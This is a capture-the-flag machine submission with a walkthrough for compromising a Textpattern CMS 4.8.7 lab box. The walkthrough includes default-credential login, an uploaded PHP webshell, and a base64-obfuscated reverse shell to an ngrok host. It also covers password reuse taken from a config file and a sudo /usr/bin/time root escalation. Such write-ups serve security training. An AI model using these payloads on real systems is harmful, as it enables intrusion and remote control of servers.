

# Text

## Introduction

I made this box because I want to learn something new and add experience in the field of cybersecurity , To pwned the machine you just need a basic cve exploitation and basic research.

## Info for HTB

### Access

Passwords:

| User  | Password                            |
| ----- | ----------------------------------- |
| john  |       aDmin@12142csaJQA#            |
| root  |           1237443                   | 

### Key Processes

This machine uses the TextPattern CMS 4.87 vulnerability. The CMS is authenticated remote code execution, but for this machine, the default user pass is used so attackers can login easily and upload shell.


### Automation / Crons


- The tools CVE Exploit automatically upload a shell from admin page
- Attacker can login admin with default user pass and they can upload shell from there
- After i reviewed the cve source code i saw the code upload shell from `textpattern/index.php? event=file` and fill it with malicious code php then we can remotely access webserver
- It can run because the default upload files is `files` then attacker can upload shell and access it from `textpattern/files/shell.php` 


### Other

I used setup with a static ip i hope you modify it 


# Writeup


# Enumeration

First of all we enumeration with nmap to scan openport 
```
nmap -sC -sV -p- -T4 --min-rate=9326 --vv test.htb        
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-30 02:44 EST
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 02:44
Completed NSE at 02:44, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 02:44
Completed NSE at 02:44, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 02:44
Completed NSE at 02:44, 0.00s elapsed
Initiating ARP Ping Scan at 02:44
Scanning test.htb (192.168.179.130) [1 port]
Completed ARP Ping Scan at 02:44, 0.12s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 02:44
Scanning test.htb (192.168.179.130) [65535 ports]
Discovered open port 80/tcp on 192.168.179.130
Discovered open port 22/tcp on 192.168.179.130
Completed SYN Stealth Scan at 02:44, 7.40s elapsed (65535 total ports)
Initiating Service scan at 02:44
Scanning 2 services on test.htb (192.168.179.130)
```

Have 2 port only are open so 22 is ssh and 80 is http . So let's we check the webserver

# Foothold


At 'http://test.htb', there was a link to login, and the website was also used Textpattern . After i clicked that link the website would redirect to `/textpattern` and there have a blog page so let's we research about textpattern exploit .


I found exploit-db and github page let's we review the source code exploit [TextPattern CMS 4.8.7](https://www.exploit-db.com/exploits/49996) here the source code .  There told you go to content section and click `Files` and upload your malicious php file . For access the webshell go to `textpattern/files/shell.php?cmd=ls` before that you need login as admin to access our page .

## Exploitation
To login to the textpattern page, you need to go to 'textpattern/textpattern' and there will be the login page. The website uses a default user pass, so you can login with this user pass, 'admin/admin', and it will redirect you to the admin dashboard so you can upload webshell and access it from the `/files` directory.




Click the content above and click `Files`. After that, upload your shell 


```
<?php system($_GET['cmd']);?>
```

Fill that source code and saved it as `shell.php` and upload that 


My webshell successfully uploaded to access the webshell we need go to `textpattern/files/test.php?cmd=ls`


Successfuly remote access so we just revshell to get user access . Let's we revshell to privilege escalation to got user 

```
echo%20%22c2ggLWkgPiYgL2Rldi90Y3AvMC50Y3AuYXAubmdyb2suaW8vMTQ0MjYgMD4mMQ==%22%20|%20base64%20-d%20|%20bash
```

`c2ggLWkgPiYgL2Rldi90Y3AvMC50Y3AuYXAubmdyb2suaW8vMTQ0MjYgMD4mMQ==` this is my revshell payload you just change it to your ip port and change it to base64 . So my revshell now has been connected so let's we try find the password user

Let's say our try using password mysql to login user . Default file config file on `/textpattern/textpattern/config.php` .

```
$ cat config.php
<?php
$txpcfg['db'] = 'test';
$txpcfg['user'] = 'test';
$txpcfg['pass'] = 'aDmin@12142csaJQA#';
$txpcfg['host'] = 'localhost';
$txpcfg['table_prefix'] = '';
$txpcfg['txpath'] = '/var/www/html/textpattern/textpattern';
$txpcfg['dbcharset'] = 'utf8mb4';
// For more customization options, please consult config-dist.php file.
```

Here the password mysql now i'll try login user as john with the password . To know username u can running `cat /etc/passwd | grep /home`


The username is `john` so i'll try using the password and login as john


Successfully login as john so let's we login ssh as john and privilege to got root access

# Privilege Escalation

```
john@test:~$ sudo -l
Matching Defaults entries for john on test:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User john may run the following commands on test:
    (root) NOPASSWD: /usr/bin/time
```

john can run `/usr/bin/time` with root permision without password so let's we privilege esc . Let's we check on [GTFOBins](https://gtfobins.github.io/) and search time and i found binary time so we can get remote access with permission root

`sudo /usr/bin/time /bin/sh`

Run this command on your ssh and successfully rooted !!

